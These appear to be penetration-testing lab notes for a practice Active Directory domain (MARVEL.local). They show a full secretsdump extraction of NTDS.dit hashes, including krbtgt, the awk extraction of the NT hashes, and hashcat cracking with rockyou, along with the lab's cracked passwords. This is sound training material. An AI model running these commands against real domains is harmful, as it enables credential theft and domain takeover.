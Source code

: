 
## Dump the NTDS.dit

NTDS.dit (**NT directory Services Database**) is the main database file Active Directory Domain Services (AD DS) in Windows Server. It stores all Active Directory data, including *user accounts*, *passwords*, *groups*, *computers*, *policies*, and *permissions*.

We can use the `haweke` account we created during the [[Token Impersonation]] attack to dump the secrets. We can use the `-just-dc-ntlm` flag in `secretsdump` to indicate we are only interested in the NTDS.dit. If not we would get all secrets as shown [[Token Impersonation#^fullDump|here]].

```bash
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.23.130 -just-dc-ntlm
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:95429b379eb022b428e2acb40508a8bc:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:8c3efc486704d2ee71eebe71af14d86c:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SqaSKUfcVl:1112:aad3b435b51404eeaad3b435b51404ee:ada2848eddc9cc62b2c83e36671cb5c3:::
hawkeye:1113:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:69646703f8dc139544866f750f803717:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2a5d646955ce36f130d78437a585dd76:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:ead11176853925d8c6855102816bd3ea:::
```

Next we can extract the NT part of the above hashes and store them in a file to be cracked using `hashcat` using the `rockyou` word list.


```bash
$ cat ntds.dump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:95429b379eb022b428e2acb40508a8bc:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:8c3efc486704d2ee71eebe71af14d86c:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SqaSKUfcVl:1112:aad3b435b51404eeaad3b435b51404ee:ada2848eddc9cc62b2c83e36671cb5c3:::
hawkeye:1113:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:69646703f8dc139544866f750f803717:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2a5d646955ce36f130d78437a585dd76:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:ead11176853925d8c6855102816bd3ea:::

$ cat ntds.dump |  awk -F: '{print $(NF-3)}'
920ae267e048417fcfe00f49ecbd4b33
31d6cfe0d16ae931b73c59d7e0c089c0
95429b379eb022b428e2acb40508a8bc
8c3efc486704d2ee71eebe71af14d86c
f4ab68f27303bcb4024650d8fc5f973a
64f12cddaa88057e06a81b54e73b949b
c39f2beb3d2ec06a62cb887fb391dee0
ada2848eddc9cc62b2c83e36671cb5c3
43460d636f269c709b20049cee36ae7a
69646703f8dc139544866f750f803717
2a5d646955ce36f130d78437a585dd76
ead11176853925d8c6855102816bd3ea

$ cat ntds.dump |  awk -F: '{print $(NF-3)}' > ntds.hashes
$ hashcat -m 1000 -a 0 ntds.hashes /usr/share/wordlists/rockyou.txt 
$ hashcat -m 1000 -a 0 ntds.hashes /usr/share/wordlists/rockyou.txt --show
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
31d6cfe0d16ae931b73c59d7e0c089c0:
8c3efc486704d2ee71eebe71af14d86c:Password1234
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
64f12cddaa88057e06a81b54e73b949b:Password1
c39f2beb3d2ec06a62cb887fb391dee0:Password2
43460d636f269c709b20049cee36ae7a:Password1@
```

Now we have the following accounts along their cracked passwords!

| Account                    | NTLM Hash                        | Cracked Password |
| -------------------------- | -------------------------------- | ---------------- |
| MARVEL.local\SQLService    | f4ab68f27303bcb4024650d8fc5f973a | MYpassword123#   |
| Administrator		<br>        | 920ae267e048417fcfe00f49ecbd4b33 | P@$$w0rd!        |
| MARVEL.local\fcastle		<br> | 64f12cddaa88057e06a81b54e73b949b | Password1        |
| hawkeye		<br>              | 43460d636f269c709b20049cee36ae7a | Password1@       |
| MARVEL.local\tstark		<br>  | 8c3efc486704d2ee71eebe71af14d86c | Password1234     |
| MARVEL.local\pparker       | c39f2beb3d2ec06a62cb887fb391dee0 | Password2        |

## Golden Ticket Attack

Once we have compromised the `krbtgt` account, we can request access to any resource or system on the domain.